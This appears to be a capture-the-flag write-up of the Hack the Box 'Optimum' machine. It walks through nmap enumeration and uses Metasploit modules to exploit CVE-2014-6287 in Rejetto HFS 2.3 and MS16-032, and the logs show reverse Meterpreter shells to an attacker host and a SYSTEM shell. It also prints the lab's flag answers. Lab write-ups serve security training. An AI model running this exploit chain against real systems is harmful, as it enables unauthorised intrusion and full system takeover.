 ```yaml
---
title: Optimum, Hack the Box CTF Walkthrough
lead: Exploiting CVE-2014-6287, Rejetto HTTP File Server (HFS) 2.3.x Remote Command Execution
tag: CTF
image: /assets/img/posts/2021-03-04-Optimum-hack-the-box-walkthrough/Optimum.png
layout: post
description: ""
date:   2021-03-04 20:01:21 -0400
last-updated: 2021-03-04 20:01:21 -0400
tag: ctf
author: Tyler Butler
desription: "Optimum is an easy level HTB challenge from the HTB archives. This challenge requires initial user access through a remote command execution vulnerability and local privilege escalation"
card: card-2
---
```


Optimum is a easy level retired CTF from Hack the Box. To root this machine, I gained initial access by exploiting a remote command execution vulnerability (CVE-2014-6287) and escalated privileges to root through a local windows privilege escalation vulnerability (CVE-2016-0099).  

## Enumeration

To start, I used nmap to enumerate open services and running ports.  The resulting output revealed the target server was running the HttpFileServer, version 2.3.  

```bash
┌──(kali㉿kali)-[~/Documents/htb/OptimumRETIRED]
└─$ sudo nmap -sV -A -O --top-ports 200 10.10.10.8                                                                                           1 ⨯
[sudo] password for kali: 
Starting Nmap 7.91 ( https://nmap.org ) at 2021-03-04 20:01 EST
Nmap scan report for 10.10.10.8
Host is up (0.026s latency).
Not shown: 199 filtered ports
PORT   STATE SERVICE VERSION
80/tcp open  http    HttpFileServer httpd 2.3
|_http-server-header: HFS 2.3
|_http-title: HFS /
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Microsoft Windows Server 2012 (91%), Microsoft Windows Server 2012 or Windows Server 2012 R2 (91%), Microsoft Windows Server 2012 R2 (91%), Microsoft Windows 7 Professional (87%), Microsoft Windows 8.1 Update 1 (86%), Microsoft Windows Phone 7.5 or 8.0 (86%), Microsoft Windows 7 or Windows Server 2008 R2 (85%), Microsoft Windows Server 2008 R2 (85%), Microsoft Windows Server 2008 R2 or Windows 8.1 (85%), Microsoft Windows Server 2008 R2 SP1 or Windows 8 (85%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

TRACEROUTE (using port 80/tcp)
HOP RTT      ADDRESS
1   27.39 ms 10.10.14.1
2   27.77 ms 10.10.10.8

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 15.00 seconds
```  

## Vulnerability Identification  

Research into the HttpFileServer version 2.3 revealed its vulnerable to CVE-2014-6287, a remote command execution  vulnerability which has several public exploits available. One of these exploits is available in a metasploit module, so I launched metasploit and configured the necessary options.  

```bash
msf6 > search CVE-2014-6287

Matching Modules
================

   #  Name                                   Disclosure Date  Rank       Check  Description
   -  ----                                   ---------------  ----       -----  -----------
   0  exploit/windows/http/rejetto_hfs_exec  2014-09-11       excellent  Yes    Rejetto HttpFileServer Remote Command Execution
```  

```bash
msf6 exploit(windows/http/rejetto_hfs_exec) > run

[*] Started reverse TCP handler on 10.10.14.13:4444 
[*] Using URL: http://0.0.0.0:8081/IfzP0QI2SL
[*] Local IP: http://192.168.232.8:8081/IfzP0QI2SL
[*] Server started.
[*] Sending a malicious request to /
/usr/share/metasploit-framework/modules/exploits/windows/http/rejetto_hfs_exec.rb:110: warning: URI.escape is obsolete
/usr/share/metasploit-framework/modules/exploits/windows/http/rejetto_hfs_exec.rb:110: warning: URI.escape is obsolete
[*] Payload request received: /IfzP0QI2SL
[*] Sending stage (175174 bytes) to 10.10.10.8
[*] Meterpreter session 1 opened (10.10.14.13:4444 -> 10.10.10.8:49162) at 2021-03-04 20:09:00 -0500

[!] Tried to delete %TEMP%\OMHaX.vbs, unknown result



[*] Server stopped.

meterpreter > 
```   

## Locate User Flag  

Using the meterpreter shell, I located the user flag and read its contents.  

```bash
meterpreter > ls
Listing: C:\Users\kostas\Desktop
================================

Mode              Size    Type  Last modified              Name
----              ----    ----  -------------              ----
40777/rwxrwxrwx   0       dir   2021-03-11 05:11:20 -0500  %TEMP%
100666/rw-rw-rw-  282     fil   2017-03-18 07:57:16 -0400  desktop.ini
100777/rwxrwxrwx  760320  fil   2014-02-16 06:58:52 -0500  hfs.exe
100444/r--r--r--  32      fil   2017-03-18 08:13:18 -0400  user.txt.txt

meterpreter > cat user.txt.txt
d0c39409d7b994a9a1389ebf38ef5f73
```  

## Post Exploitation Enumeration    

The CVE-2014-6287 exploit opened the meterpreter shell as the kostas user. To read the contents of the Admin flag, I would need to escalate to SYSTEM privilege. First, I attempted the `getsystem` meterpreter command, but this failed. I started to gather additional details about the target, starting with the meterpreter `sysinfo` command.  

```bash
meterpreter > sysinfo
Computer        : OPTIMUM
OS              : Windows 2012 R2 (6.3 Build 9600).
Architecture    : x64
System Language : el_GR
Domain          : HTB
Logged On Users : 1
Meterpreter     : x86/windows
meterpreter > 
```  

Researching for local privilege escalation vulnerabilities specific for Windows 2012 R2 (6.3 Build 9600) revealed CVE-2016-0099. Fortunately, this too has a metasploit module available. I configured the module and launched the exploit.   

```bash
msf6 exploit(windows/local/ms16_032_secondary_logon_handle_privesc) > run

[*] Started reverse TCP handler on 10.10.14.13:4441 
[+] Compressed size: 1016
[!] Executing 32-bit payload on 64-bit ARCH, using SYSWOW64 powershell
[*] Writing payload file, C:\Users\kostas\AppData\Local\Temp\KqxoHA.ps1...
[*] Compressing script contents...
[+] Compressed size: 3592
[*] Executing exploit script...
         __ __ ___ ___   ___     ___ ___ ___ 
        |  V  |  _|_  | |  _|___|   |_  |_  |
        |     |_  |_| |_| . |___| | |_  |  _|
        |_|_|_|___|_____|___|   |___|___|___|
                                            
                       [by b33f -> @FuzzySec]

[?] Operating system core count: 2
[>] Duplicating CreateProcessWithLogonW handle
[?] Done, using thread handle: 2112

[*] Sniffing out privileged impersonation token..

[?] Thread belongs to: svchost
[+] Thread suspended
[>] Wiping current impersonation token
[>] Building SYSTEM impersonation token
[?] Success, open SYSTEM token handle: 2080
[+] Resuming thread..

[*] Sniffing out SYSTEM shell..

[>] Duplicating SYSTEM token
[>] Starting token race
[>] Starting process race
[!] Holy handle leak Batman, we have a SYSTEM shell!!

PykxFdTyo5bVOiBbBCJ1ZoZo9QIdtpa6
[+] Executed on target machine.
[*] Sending stage (175174 bytes) to 10.10.10.8
[*] Meterpreter session 2 opened (10.10.14.13:4441 -> 10.10.10.8:49166) at 2021-03-04 20:41:02 -0500
[+] Deleted C:\Users\kostas\AppData\Local\Temp\KqxoHA.ps1

meterpreter > shell
```  

## Locate Root Flag  

Using the meterpreter `shell` command, I dropped into the windows cmd shell and searched manually for the root flag.   

```bash
C:\Users\Administrator\Desktop>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is D0BC-0196

 Directory of C:\Users\Administrator\Desktop

18/03/2017  02:14 ��    <DIR>          .
18/03/2017  02:14 ��    <DIR>          ..
18/03/2017  02:14 ��                32 root.txt
               1 File(s)             32 bytes
               2 Dir(s)  31.899.729.920 bytes free

C:\Users\Administrator\Desktop>type root.txt
type root.txt
51ed1b36553c8461f4552c2e92b3eeed
C:\Users\Administrator\Desktop>
```